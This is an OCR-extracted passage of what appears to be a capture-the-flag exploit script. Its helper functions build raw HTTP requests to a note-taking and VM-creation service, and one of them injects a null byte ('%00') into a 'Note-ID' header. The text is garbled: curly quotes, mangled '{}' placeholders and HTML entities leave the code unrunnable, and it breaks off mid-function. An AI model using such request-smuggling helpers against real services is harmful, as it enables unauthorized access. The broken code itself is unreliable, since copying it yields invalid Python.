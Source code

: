     payload =  “POST /notepad HTTP/1.1\r\n”

    payload += “Content-Length: `{``}`\r\n”.format(len(cont))

    payload += “Content-Type: application/x-www-form-urlencoded\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “Note-Operation: edit%20note\r\n”

    payload += “Note-ID: `{``}`%00\r\n”.format(note_id)

    payload += “\r\n”

    payload += cont

    io.send(payload)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

​

def get_node(login_id):

    payload =  “GET /notepad HTTP/1.1\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “\r\n”

    io.send(payload)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

    # sleep(1)

​

def create_vm(login_id):

    payload =  “POST /createvm HTTP/1.1\r\n”

    payload += “Content-Length: 0\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “\r\n”

    io.send(payload)

    io.recvuntil(“requested URL /createvm was handled successfully”)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

​

def connect_vm(login_id):

    payload =  “POST /connectvm HTTP/1.1\r\n”

    payload += “Content-Length: 0\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)
